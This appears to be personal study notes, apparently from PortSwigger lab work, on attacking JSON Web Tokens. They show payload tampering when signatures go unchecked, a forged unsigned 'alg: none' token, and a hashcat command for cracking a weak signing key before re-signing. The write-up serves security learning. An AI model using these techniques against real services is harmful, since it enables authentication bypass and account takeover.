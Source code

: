 ```yaml
---
title: JWT attacks
description: Poor implementation of JWT can be used to bypass authentication and access control
---
```

## JWT Format
- **header**: metadata about the token
- **payload**: claim about the data or user
- **signature**:  header and payload are encoded, then signed with a secret key to prevent tampering.
![JWT Format](/images/JWT_20250518%20_162911.png)
## Exploit
### Signature not verified
Make changes to the payload, like changing to a different user. 
```http
{  
    "iss": "portswigger",  
    "exp": 1747553975,  
    "sub": "wiener"  
}
```
Change user:
```http
{  
    "iss": "portswigger",  
    "exp": 1747553975,  
    "sub": "carlos"  
}
```
### Unsigned JWT
Server can be setup incorrectly and it can accepts unsigned JWTs.
Use burpsuite **JSON Web Token** extensions to remove the signature. 

![JSON Web Token](/images/JWT_20250518%20_164907.png)

It removes the signature. The header now looks like this:
```http
{  
    "typ": "JWT",  
    "alg": "none"  
}
```

JWT with no signature:
```http
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzU1NDQ3MCwic3ViIjoid2llbmVyIn0.
```
### Weak signing key
Use **hashcat** to try to brute-force the secret key.
```bash
hashcat -a 0 -m 16500 eyJraWQiOiI0ODY2MTZhOC1lM2I0LTQzZWItODQ3Mi04NTc1OTgzNWJhNTkiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzU1NDc1NSwic3ViIjoid2llbmVyIn0._75lGMCWEJRNqs-mH0KCZ4IDodeS3IEQFPhUZOGKDNk rockyou.txt
```

Create a new signing key with the cracked secret key.
1. Burp Suite > JWT Editor > New Symmetric Key
2. Specify secret > Generate
3. Go to JSON Web token, change the payload and sign with new key.![JWT Signing Key](/images/JWT_20250518%20_170826.png)